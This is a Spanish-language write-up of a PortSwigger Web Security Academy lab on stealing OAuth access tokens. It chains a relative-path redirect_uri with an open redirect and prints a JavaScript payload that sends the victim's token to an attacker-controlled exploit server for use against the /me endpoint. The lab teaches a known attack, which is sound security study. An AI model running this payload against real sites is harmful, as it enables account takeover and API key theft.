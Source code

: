 En esta segunda clase, se encadena la redirección relativa (**../**) en el **redirect_uri** con la redirección abierta (**/post/next?path=**) para forzar que el flujo OAuth finalice en un servidor externo controlado por el atacante (exploit server).

Se construye un iframe malicioso que redirige al administrador (quien tiene sesión activa con el proveedor OAuth) a través del flujo de autenticación. El token de acceso resultante se incluye como fragmento (**#access_token=…**) en la URL de redirección final.

Mediante un pequeño script JavaScript en el exploit server, el fragmento es extraído y reenviado como parámetro de consulta (**/?access_token=…**), permitiendo su captura desde los logs del servidor.

Con el token ya robado, se realiza una solicitud autenticada al endpoint **/me** del blog, obteniendo así la API key del administrador. Esta clave es enviada como solución para completar el laboratorio.

La clase pone de relieve cómo una mala validación en **redirect_uri**, sumado a una redirección abierta interna, puede comprometer tokens sensibles sin necesidad de vulnerar el proveedor OAuth directamente.

Solucion
../post/next?path=
Entonces ahora necesitamos redirigir a la victima para eso vamos a crearnos un script el cual lo que ara es traer el apikey del administrador
(<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a38007603b7bcd080ff339002250043.oauth-server.net/auth?client_id=ssw7aglu9bjrzy5fj9tqp&redirect_uri=https://0a40007903afbced80f7357f00f0002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a74008e03d8bcfa809a34e3014c00a9.exploit-server.net/exploit&response_type=token&nonce=-2060465930&scope=openid%20profile%20email';
    } else {
        window.location = '/?'+ document.location.hash.substr(1);
    }
</script>)
![[Pasted image 20250830185131.png]]
le damos store y le damos acces log
![[Pasted image 20250830185229.png]]
copias el ultimo access_token
dentro del repeater en la seccion de /me lo modificamos en la parte que dice authorization y le damos send
![[Pasted image 20250830185311.png]]
de modo que nos dara la api key y con esa la copiamos y pegamos en el laboratorio
![[Pasted image 20250830185356.png]]
